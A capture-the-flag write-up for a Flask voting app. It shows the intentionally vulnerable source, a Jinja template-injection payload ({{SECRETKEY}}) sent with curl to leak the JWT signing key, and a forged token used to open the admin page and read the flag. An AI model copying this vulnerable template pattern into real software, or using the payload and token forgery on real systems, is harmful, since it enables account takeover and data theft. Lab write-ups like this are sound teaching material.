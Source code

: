 ```yaml
---
layout: writeup
title: Template Token
tags: WebX
---
```


## Description

The citizens are voting, but it’s not the votes that matter - it’s the system that counts them.

Cast your vote, inspect the results… but is that all there is?

Your mission? Break into the admin panel and uncover the flag.

<!--more-->

http://redac.ted:5000/

This challenge also provided the `app.py` file


## Solution

Here is the app.py file:

```python
import jwt
import datetime
import os
import re
from flask import Flask, render_template, render_template_string, request, jsonify
from functools import wraps
from dotenv import load_dotenv
from utils import db

load_dotenv()
app = Flask(__name__)

# secret key for our JWT signing! no one should know this
SECRETKEY = os.getenv("SECRETKEY")

def token_required(f):
    @wraps(f)
    def wrapper(*args, **kwargs):
        token = None

        auth_header = request.headers.get("Authorization", None)
        if auth_header and auth_header.startswith("Bearer "):
            token = auth_header.split()[1]

        if not token:
            return jsonify({"message":"Token is missing"}), 401

        try:
            payload = jwt.decode(token, SECRETKEY, algorithms=["HS256"])
            request.jwt_payload = payload

        except jwt.ExpiredSignatureError:
            return jsonify({"message":"Token has expired"}), 401

        except jwt.InvalidTokenError:
            return jsonify({"message":"Token is invalid"}), 401

        return f(*args, **kwargs)

    return wrapper

@app.route("/")
def home():
    return render_template("home.html")

@app.route("/admin")
@token_required
def admin():
    try:
        with open("/flag", "r") as f:
            flag_content = f.read().strip()
    except Exception:
        flag_content = "Unable to read /flag."

    return render_template("admin.html", flag=flag_content)

# sanitisation to prevent XSS and other injection attacks
def sanitize_input(user_input: str) -> str:
    return re.sub(r"[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]", "", user_input)

from utils import db  # make sure utils/db.py exists and is imported
# ...

@app.route("/vote", methods=["GET", "POST"])
def vote():
    if request.method == "GET":
        # Get candidates from the DB
        candidates = db.fetch_all_candidates()
        return render_template("vote.html", candidates=candidates)

    # POST: register vote
    candidate_raw = request.form.get("candidate", "")
    candidate = sanitize_input(candidate_raw)

    # Record the vote in the DB
    db.add_vote(username='voter', candidate_id=candidate)

    # Confirmation page
    template_source = f"""
	{% raw %}
    {{% extends "base.html" %}}
    {{% block content %}}
      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>{candidate}</strong></p>

      </div>
    {{% endblock %}}
	{% endraw %}
    """
    return render_template_string(template_source, **globals())

app.run(host="0.0.0.0", port=5000, debug=True)
```

This is a pretty simple website. There is an `index` page, a `vote` page and an `admin` page. 

In order to see the admin page which has the flag on it, you need a valid JWT token which only allows the `HS256` algorithm and uses a set key, so there are no vulnerabilities there.

The index page just serves a static HTML page, so no vulnerability there

Finally, the vote page gets the user's input, sanitises it, and then displays a page with the said input on it.

Just a quick glance at how the vote page displays the user's input reveals a vulnerability. Instead of using jinja like your supposed to, the program gives the template all globals, and also the user's input is passed in through an f-string in python instead of specifically in jinja. This means that as long as we can get around the sanitisation, we can input jinja code into the template that will be executed. This could be useful for outputing any certain global variables... such as the `SECRETKEY` global variable.

The neccessary jinja to output the secret key would be `{{SECRETKEY}}` lets see if we can get this around the sanitisation.

Lukcily it is a horrible sanitisation method where any of these charcater `[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]` are removed from the string. Luckily `{` and `}` are not in this list, meaning we just need to vote for `{{SECRETKEY}}` and we get the secret key to sign our own JWT token and login to the admin page which gets us the flag.

```bash
$ curl -X POST "http://re.da.ct.ed:5000/vote" -d "candidate={{SECRETKEY}}"

    <!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>ldidyouknowthatshinigamisloveapples</strong></p>

      </div>

    </div>
  </body>
</html>
```

There is the secret key `ldidyouknowthatshinigamisloveapples`

so just some quick python in the terminal using `PyJWT` in order to create out own jwt token

```python
>>> import jwt
>>> jwt.encode({}, "ldidyouknowthatshinigamisloveapples", algorithm="HS256")
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ'
```

The token checker just makes sure the token is properly signed, not that any info in it is correct, so I just signed an empty payload

Now time to make the request with the token

```bash
$ curl "http://re.da.ct.ed:5000/admin" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

  <h1>Admin Dashboard</h1>

  <p style="color: green; font-weight: bold;">
    FLAG: secedu{h0ld_my_s1gn4tur3s_pl34s3}
  </p>

    </div>
  </body>
</html>
```

There's the flag for us `secedu{h0ld_my_s1gn4tur3s_pl34s3}`
